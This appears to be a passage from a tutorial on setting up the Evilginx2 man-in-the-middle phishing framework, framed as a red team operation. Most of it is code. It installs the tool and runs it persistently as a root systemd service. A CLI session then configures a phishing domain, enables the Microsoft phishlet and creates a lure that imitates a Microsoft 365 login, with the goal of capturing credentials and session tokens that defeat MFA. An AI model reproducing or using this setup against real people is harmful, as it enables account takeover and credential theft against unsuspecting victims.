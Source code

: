 #### Using Evilginx2 for Advanced Phishing

Traditional phishing sites often fail against modern security controls like Multi-Factor Authentication (MFA). That's where Evilginx2 comes in - it's a powerful man-in-the-middle framework that can capture not just credentials, but authentication tokens as well.

Here's how to set it up for a red team operation:

```bash
# Install dependencies
apt-get update
apt-get install -y git make golang-go

# Set up Go environment
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin

# Clone and build Evilginx2
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make

# Create a systemd service for persistence
cat > /etc/systemd/system/evilginx2.service << EOL
[Unit]
Description=Evilginx2 Phishing Framework
After=network.target

[Service]
Type=simple
User=root
WorkingDirectory=/root/evilginx2
ExecStart=/root/evilginx2/bin/evilginx -p ./phishlets
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOL

# Enable and start the service
systemctl daemon-reload
systemctl enable evilginx2
systemctl start evilginx2
```

The real power of Evilginx2 is in its phishlets - specialized configurations for specific target services (Microsoft, Google, etc.). Here's a sample CLI session to set up a Microsoft 365 phishing campaign:

```
# Configure domain and IP
config domain your-phishing-domain.com
config ip 203.0.113.10

# Set up a phishlet for Microsoft
phishlets get microsoft

# Enable the phishlet with your domain
phishlets enable microsoft your-phishing-domain.com

# Create a lure for Microsoft login
lures create microsoft

# Configure the lure with a convincing path and redirect
lures edit 0 path /secure-login
lures edit 0 redirect https://office.com
```
